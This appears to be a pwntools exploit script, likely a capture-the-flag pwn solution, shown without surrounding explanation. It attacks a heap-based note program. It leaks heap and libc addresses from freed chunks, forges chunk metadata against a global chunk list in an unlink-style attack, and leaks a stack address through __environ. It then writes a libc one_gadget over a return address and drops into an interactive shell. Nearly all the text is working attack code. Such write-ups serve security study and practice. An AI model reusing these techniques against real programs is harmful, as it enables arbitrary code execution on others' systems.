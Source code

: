 ```plain
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('(Y/n)>>> ')
    p.sendline('y')

add(0xe0, "A"*0xe0)
add(0xf0, "B"*0xf0)
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
delete(3)
delete(1)
#duan()

ru('INDEX: 1\n')
ru('# CONTENT: ')
k=u64(r(8))
heap_addr=k&0x0000000000ffffff-0x1f0
#heap_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
leak('heap_addr',heap_addr)
ru('INDEX: 3\n')
ru('# CONTENT: ')
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak('libc_base',libc_base)

chunk_list_addr=0x602040
chunk2_addr=heap_addr+0xf0
offset=chunk2_addr-chunk_list_addr
leak('chunk_list_addr >> ',chunk_list_addr)
leak('chunk2_addr >> ',chunk2_addr)
leak('offset >> ',offset)
add(0xe8, "g"*(0xe8-0x8) + p64(offset))
delete(4)

pl=p64(0x100)+p64(offset)
pl+=p64(chunk_list_addr)*4
edit(2, pl)
delete(2)

gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
gadget_addr = libc_base + gadget[3]
payload = p64(0xe8) + p64(libc_base + libc.symbols["__environ"])
payload += p64(0xe8) + p64(0x602148)
add(0xe0, "t"*0xe0)
add(0x100, payload)


p.readuntil("# CONTENT: ")
stack_env=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
success("env_stack address: " + hex(stack_env))

edit(2, p64(stack_env-240))
edit(1, p64(gadget_addr))
p.readuntil("(CMD)>>>")
p.sendline("Q")

itr()
```
